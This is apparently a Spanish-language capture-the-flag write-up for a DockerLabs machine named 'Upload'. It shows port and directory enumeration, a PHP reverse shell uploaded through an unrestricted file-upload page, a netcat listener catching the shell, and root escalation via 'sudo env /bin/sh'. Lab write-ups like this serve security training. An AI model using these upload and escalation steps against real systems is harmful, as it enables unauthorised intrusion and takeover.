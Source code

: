 # Upload
https://dockerlabs.es

*23/5/2024*

## ENUMERACION

```
└─$ nmap -p- --open --min-rate 5000 -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-24 18:04 EDT
Nmap scan report for 172.17.0.2
Host is up (0.00043s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)

```
Enumeracion de directorios web
```
└─$ gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html,php.wak
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html,php.wak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 1361]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/upload.php           (Status: 200) [Size: 1357]
===============================================================
Finished
===============================================================

```


## ANALISIS DE VULNERABILIDADES

Esta pagina que descrubrimos funciona con php y permite cargar archivos para luego ser ejecutados

```
![image](https://github.com/M1queaa/DOCKERLABS/assets/108646257/d968530a-dd07-485c-9de2-750e03411c7d)

```


## EXPLOTACION

Crearemos un archivo .php el cual genere una reverse shell, puedes utilizar esta pagina para generarla, descargarla por github o crearla tu mismo
![image](https://github.com/M1queaa/DOCKERLABS/assets/108646257/507a7464-bb1c-4abd-8d9e-f4baa5e1cd6d)

Lo cargamos a la pagina
![image](https://github.com/M1queaa/DOCKERLABS/assets/108646257/c9436da4-3a09-49de-ac7c-ae4dc3746ecb)

Nos ponemos en escucha por el puerto 443
```
└─$ sudo nc -nvlp 443                              
listening on [any] 443 ...
```

Y lo ejecutamos por medio del navegador
![image](https://github.com/M1queaa/DOCKERLABS/assets/108646257/d64cdff7-94a2-4c26-aa09-5adbdf32764b)

Y nos devolvera una reverse shell
```
connect to [192.168.0.22] from (UNKNOWN) [172.17.0.2] 53608
SOCKET: Shell has connected! PID: 61
whoami
www-data
```


## POST-EXPLOTACION

Escalamos privilegios
```
sudo -l
Matching Defaults entries for www-data on 0936e4313479:                                                             
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on 0936e4313479:
    (root) NOPASSWD: /usr/bin/env
sudo env /bin/sh
whoami
root
```

Y tratamos las TTY
```
script /dev/null -c bash
Script started, output log file is '/dev/null'.                                                                     
root@0936e4313479:/var/www#
```
